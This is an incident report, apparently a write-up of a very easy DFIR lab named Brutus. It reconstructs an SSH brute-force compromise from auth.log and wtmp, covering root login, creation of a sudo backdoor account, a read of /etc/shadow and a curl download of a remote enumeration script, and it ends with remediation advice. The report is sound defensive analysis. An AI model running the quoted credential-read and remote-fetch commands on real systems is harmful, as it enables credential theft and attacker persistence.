





<p align="center">
  
</p>

# Brutus Security Incident Report

> **Category:** Very Easy  
> **Discipline:** DFIR — Log Analysis  
> **Primary artifacts:** Linux `auth.log` and `wtmp`  
> **Time standard:** UTC

---

## Executive Summary

| Field | Value |
|---|---|
| **Incident ID** | `BRUTUS-2024-0306` |
| **Severity** | **Critical** |
| **Status** | Confirmed compromise |
| **Affected host** | `ip-172-31-35-28` |
| **Initial access vector** | SSH password brute force |
| **Compromised account** | `root` |
| **Attacker IP** | `65.2.161.68` |
| **Persistence account** | `cyberjunkie` |
| **First interactive session** | `2024-03-06 06:32:45 UTC` |
| **Assessment confidence** | High |

An external attacker brute-forced SSH and authenticated directly as `root`. After obtaining an interactive terminal, the attacker created the local account `cyberjunkie`, assigned it a password, and added it to the `sudo` group. The attacker then ended the original root session, logged back in through the new account, accessed `/etc/shadow` with `sudo`, and retrieved a remote Linux enumeration script from GitHub.

The evidence confirms complete administrative compromise and a persistent access path. The supplied logs do not prove data exfiltration or show containment actions.

---

## Artifact Inventory

| Artifact | Type | Evidentiary value |
|---|---|---|
| `auth.log` | Linux authentication log | Failed and successful SSH authentication, session IDs, account creation, group changes, and `sudo` commands |
| `wtmp` | Binary login history | Interactive login timestamps, usernames, terminal devices, source IP addresses, and session termination |
| `utmp.py` | `wtmp` parser | Decodes the binary `wtmp` records for analysis |
| `initialacces.png` | Evidence screenshot | Successful root login and creation of the persistence account |
| `utmp.png` | Evidence screenshot | Interactive sessions associated with the attacker IP |
| `privesc.png` | Evidence screenshot | Addition of `cyberjunkie` to the `sudo` group and subsequent login |
| `curlcommand.png` | Evidence screenshot | Privileged access to `/etc/shadow` and retrieval of a remote script |

> **Timezone note:** The `wtmp` parser inherited the analyst workstation timezone. All report timestamps were normalized to UTC.

---

## Scope and Affected Assets

| Asset | Role | Impact |
|---|---|---|
| `ip-172-31-35-28` | Linux server hosting Confluence-related services | Full root-level compromise |
| `root` | Local superuser | Password authentication compromised |
| `cyberjunkie` | Attacker-created local user | Persistent administrative access through `sudo` |
| `/etc/shadow` | Local password-hash database | Accessed by the attacker through `sudo` |

---

## Incident Narrative

### 1. SSH Brute Force and Initial Access

The attacker generated repeated SSH authentication activity from `65.2.161.68`. The SSH daemon reached `MaxStartups` throttling, indicating a high volume of concurrent connection attempts. At `2024-03-06 06:32:44 UTC`, password authentication succeeded for `root`.

`systemd-logind` assigned the successful root login **session 37**.



### 2. Interactive Root Session

The successful authentication event and the interactive login record are separate events. The `wtmp` artifact records the attacker opening `pts/1` as `root` from `65.2.161.68` at:

```text
2024-03-06 06:32:45 UTC
```

This is the first confirmed interactive terminal session used to perform post-compromise actions.



### 3. Persistence Account Creation

While operating as `root`, the attacker created a local account named `cyberjunkie`:

| Time (UTC) | Activity |
|---|---|
| `06:34:18` | Created group and user `cyberjunkie` with UID/GID `1002` |
| `06:34:26` | Set the account password |
| `06:34:31` | Modified account information |
| `06:35:15` | Added `cyberjunkie` to the `sudo` group |

This converted the account into a persistent administrative access mechanism.



### 4. Session Transition

The original root SSH session ended at `2024-03-06 06:37:24 UTC`. Ten seconds later, the attacker authenticated from the same IP using `cyberjunkie`. The new login received **session 49**, and `wtmp` recorded the interactive `pts/1` session at `06:37:35 UTC`.

The matching source IP, short time gap, and preceding account creation confirm that the same actor transitioned to the backdoor account.

### 5. Credential Access and Tool Retrieval

At `2024-03-06 06:37:57 UTC`, `cyberjunkie` used `sudo` to read the local password-hash database:

```text
/usr/bin/cat /etc/shadow
```

At `2024-03-06 06:39:38 UTC`, the attacker used privileged `curl` to retrieve a remote Linux enumeration script:

```text
/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
```

The log confirms retrieval of the script. It does not independently prove that the script was saved or executed.



---

## Technical Timeline

| Timestamp (UTC) | Event |
|---|---|
| `2024-03-06 06:31–06:32` | Repeated SSH attempts from `65.2.161.68`; connections were throttled by `MaxStartups` |
| `2024-03-06 06:32:44` | SSH password accepted for `root` |
| `2024-03-06 06:32:44` | PAM opened the root SSH session; `systemd-logind` created session `37` |
| `2024-03-06 06:32:45` | `wtmp` recorded an interactive root session on `pts/1` |
| `2024-03-06 06:34:18` | Local user and group `cyberjunkie` created |
| `2024-03-06 06:34:26` | Password assigned to `cyberjunkie` |
| `2024-03-06 06:35:15` | `cyberjunkie` added to the `sudo` group |
| `2024-03-06 06:37:24` | Root SSH session terminated |
| `2024-03-06 06:37:34` | SSH password accepted for `cyberjunkie`; session `49` opened |
| `2024-03-06 06:37:35` | `wtmp` recorded the interactive `cyberjunkie` session |
| `2024-03-06 06:37:57` | Attacker read `/etc/shadow` using `sudo` |
| `2024-03-06 06:39:38` | Attacker retrieved `linper.sh` from GitHub using privileged `curl` |

---

## Indicators of Compromise

| Type | Indicator | Context |
|---|---|---|
| IPv4 | `65.2.161.68` | Source of brute-force activity and both malicious SSH sessions |
| Username | `cyberjunkie` | Attacker-created persistence account |
| Account | `root` | Initially compromised account |
| Terminal | `pts/1` | Interactive attacker terminal |
| Session ID | `37` | Initial compromised root session |
| Session ID | `49` | Persistence-account session |
| File path | `/etc/shadow` | Sensitive credential store accessed by attacker |
| URL | `https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh` | Remote enumeration script retrieved after compromise |

---

## Attack Classification

| Phase | Observed behavior |
|---|---|
| **Initial Access** | Password brute force against SSH |
| **Execution** | Interactive shell commands through SSH |
| **Persistence** | Creation of local account `cyberjunkie` |
| **Privilege Maintenance** | Addition of the new account to the `sudo` group |
| **Credential Access** | Reading `/etc/shadow` |
| **Discovery** | Retrieval of a Linux enumeration script |

---

## Root Cause

The compromise was enabled by a combination of:

- Direct SSH password authentication for `root`
- A weak, exposed, or previously compromised root password
- No effective MFA for administrative remote access
- Insufficient brute-force prevention and connection rate controls
- No immediate alert or block after sustained SSH failures

---

## Impact Assessment

| Area | Assessment |
|---|---|
| **Confidentiality** | High impact. The attacker obtained root access and read `/etc/shadow`. |
| **Integrity** | High impact. A new administrative user was created and system account configuration was modified. |
| **Availability** | No direct service outage is visible in the supplied evidence. |
| **Persistence** | Confirmed through `cyberjunkie` and `sudo` membership. |
| **Data exfiltration** | Not established from the available artifacts. |
| **Overall impact** | Complete host compromise; all secrets accessible to root must be treated as exposed. |

---

## Containment and Eradication Recommendations

### Immediate

1. Isolate `ip-172-31-35-28` from the network.
2. Block `65.2.161.68` at perimeter and host controls.
3. Disable direct root SSH access and terminate active sessions.
4. Lock and remove `cyberjunkie` after preserving forensic evidence.
5. Rotate the root password, SSH keys, service credentials, API tokens, and secrets stored on the host.
6. Preserve the disk, memory, authentication logs, shell histories, and relevant network telemetry.

### Eradication and Recovery

1. Rebuild the server from a trusted image rather than relying only on account removal.
2. Restore application data from validated backups.
3. Review `/etc/passwd`, `/etc/shadow`, `/etc/group`, `/etc/sudoers*`, SSH keys, cron jobs, systemd units, and startup scripts.
4. Validate Confluence configuration, plugins, credentials, and connected databases.
5. Hunt for the attacker IP, `cyberjunkie`, and the script URL across all systems.

### Preventive Controls

- Disable `PermitRootLogin` for SSH.
- Prefer key-based authentication and protect administrative access with MFA or a bastion host.
- Deploy `fail2ban`, firewall rate limiting, or equivalent brute-force controls.
- Alert on successful SSH logins following repeated failures.
- Alert on local user creation, `sudo`-group changes, and access to `/etc/shadow`.
- Centralize Linux authentication logs and normalize all timestamps to UTC.

---

## Conclusion

The attacker gained direct root access through SSH password brute force, established an interactive terminal, and created a sudo-enabled local account for persistence. The actor then returned through that account, accessed password hashes, and retrieved a Linux enumeration script. The host must be treated as fully compromised and rebuilt from a trusted source.

---

## Annex A — Evidence-to-Finding Matrix

| Finding | Supporting artifact |
|---|---|
| Brute-force source was `65.2.161.68` | `auth.log` |
| Root authentication succeeded at `06:32:44 UTC` | `auth.log` |
| Interactive root session began at `06:32:45 UTC` | `wtmp` |
| Initial SSH session number was `37` | `auth.log` |
| Persistence account was `cyberjunkie` | `auth.log` |
| Account received administrative privileges | `auth.log` — `usermod` and `shadow group 'sudo'` entries |
| Backdoor login was from the same attacker IP | `auth.log` and `wtmp` |
| `/etc/shadow` was accessed | `auth.log` — `sudo` command record |
| Remote enumeration script was retrieved | `auth.log` — privileged `curl` command |
